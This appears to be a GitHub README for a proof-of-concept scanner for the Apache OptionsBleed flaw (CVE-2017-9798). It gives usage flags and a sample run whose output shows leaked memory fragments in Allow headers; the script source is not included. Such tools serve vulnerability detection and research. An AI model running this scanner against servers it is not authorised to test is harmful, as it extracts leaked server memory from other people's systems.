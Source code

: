 # OptionsBleed-POC-Scanner
OptionsBleed (CVE-2017-9798) PoC / Scanner

More information coming soon...

## Disclaimer
This software has been created purely for the purposes of academic research and for the development of effective defensive techniques, and is not intended to be used to attack systems except where explicitly authorized. Project maintainers are not responsible or liable for misuse of the software. Use responsibly.

## Usage
```
usage: bleeder.py [-h] [-c COUNT] [-f {option,custom}] [-tc THREAD_COUNT] [-nv] [-ni] [-v] [-e] url

positional arguments:
  url                   full URL (including http(s)) to be scanned

optional arguments:
  -h, --help            show this help message and exit
  -c COUNT, --count COUNT
                        number of times to scan (default: 1000)
  -f {option,custom}, --force {option,custom}
                        forces the scan to attempt using custom verb method
                        OR OPTIONS (default: try OPTIONS THEN custom)
  -tc THREAD_COUNT, --thread-count THREAD_COUNT
                        max concurrent thread count (default: 500)
  -nv, --no-verify      does not verify ssl connection (may be necessary for
                        self-signed certs)
  -ni, --no-ignore      does NOT ignore ssl warnings (default: ignored)
  -v, --verbose         prints all headers
  -e, --errors          prints all errors
```

## Simple Usage

```
python bleeder.py "http://10.1.2.3" -c 50

        ::OptionsBleed (CVE-2017-9798) Scanner::

[+] scanning http://10.1.2.3 to see if it bleeds!
[+] checking OPTION method
[+] allow headers detected in OPTION response
[+] checking CUSTOM method
[+] allow headers detected in CUSTOM response
[+] scanning with OPTIONS method...
[+] scanning with custom (PULL) method...
[+] 50 responses captured
[+] unique results:
GET,HEAD,allow,HEAD,allow,HEAD,,HEAD,OPTIONS,POST,all,HEAD,
GET,HEAD,allow,HEAD,,HEAD,OPTIONS,POST,all,HEAD,
GET,HEAD,╚jφHU,HEAD,,HEAD,,HEAD,,HEAD,,HEAD,,HEAD,OPTIONS,POST,all,HEAD,,HEAD,,,
GET,HEAD,allow,HEAD,allow,HEAD,,HEAD,OPTIONS,POST,all,HEAD,all,HEAD,
GET,HEAD,allow,HEAD,OPTIONS,POST,all,HEAD,all,HEAD
GET,HEAD,allow,HEAD,╚jφHU,HEAD,,HEAD,,HEAD,OPTIONS,POST,,HEAD,all,HEAD,,HEAD,
GET,HEAD,allow,HEAD,OPTIONS,POST,all,HEAD
GET,HEAD,allow,HEAD,,HEAD,OPTIONS,POST,all,HEAD,all,HEAD,
GET,HEAD,allow,HEAD,allow,HEAD,OPTIONS,POST,all,HEAD
GET,HEAD,allow,HEAD,╚jφHU,HEAD,,HEAD,,HEAD,,HEAD,,HEAD,,HEAD,OPTIONS,POST,all,HEAD,,HEAD,,,
GET,HEAD,╚jφHU,HEAD,,HEAD,,HEAD,,HEAD,,HEAD,,HEAD,,HEAD,OPTIONS,POST,all,HEAD,,HEAD,,,
GET,HEAD,allow,HEAD,allow,HEAD,╚jφHU,HEAD,,HEAD,,HEAD,OPTIONS,POST,,HEAD,all,HEAD,,HEAD,
[+] scan complete!
```
